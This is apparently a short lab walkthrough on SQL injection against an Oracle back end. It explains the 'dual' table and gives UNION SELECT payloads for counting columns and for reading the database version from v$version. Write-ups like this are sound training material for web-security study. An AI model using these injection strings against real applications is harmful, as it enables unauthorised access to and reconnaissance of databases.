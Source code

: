 We know the server is Oracle. Every `SELECT` statement must use `FROM`. For this purpose Oracle has a table called `dual`. Our payload will use that.

[related link](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm)

Starting by finding the number of columns.
```
' UNION SELECT NULL FROM dual --
' UNION SELECT NULL,NULL FROM dual --
```

[oracle docs - version](https://docs.oracle.com/cd/B14117_01/server.101/b10755/dynviews_2154.htm)

And by searching version query for Oracle 

```
' UNION SELECT NULL,banner FROM v$version --
```

we can complete the lab.
